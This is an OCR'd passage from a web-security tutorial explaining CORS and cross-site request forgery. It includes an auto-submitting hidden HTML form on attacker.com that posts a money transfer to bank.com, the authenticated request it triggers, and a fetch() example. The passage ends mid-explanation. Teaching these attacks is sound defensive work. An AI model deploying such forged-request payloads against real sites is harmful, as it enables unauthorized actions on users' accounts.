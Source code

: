 **What Happens?**

- **CORS Headers**: The response includes `Access-Control-Allow-Origin: https://attacker.com` and `Access-Control-Allow-Credentials: true`, which allows `attacker.com` to read the response.
- **JavaScript Access Granted**: Because of these headers, the browser allows `attacker.com` to access the response data.

### **3. Cross-Site Request Forgery (CSRF)**

#### **Scenario**: Form Submission with `application/x-www-form-urlencoded`

**HTML Form on `attacker.com` trying to perform CSRF:**

```html
<!-- attacker.com -->
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="to" value="attacker">
  <input type="submit" value="Transfer Money">
</form>
<script>
  document.forms[0].submit();  // Automatically submit the form
</script>
```

**HTTP Request Sent:**

```
POST /transfer HTTP/1.1
Host: bank.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

amount=1000&to=attacker
```

**What Happens?**

- **Automatic Cookie Inclusion**: When the form is submitted, the browser automatically includes the session cookie (`session=abc123`) in the request to `bank.com`.
- **Request is Authenticated**: `bank.com` processes the request as if it came directly from the user, transferring money to the attacker.

#### **Why `application/json` is Different**

**JavaScript Example with `application/json`:**

```javascript
// attacker.com
fetch('https://bank.com/transfer', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    amount: 1000,
    to: 'attacker'
  })
});
```
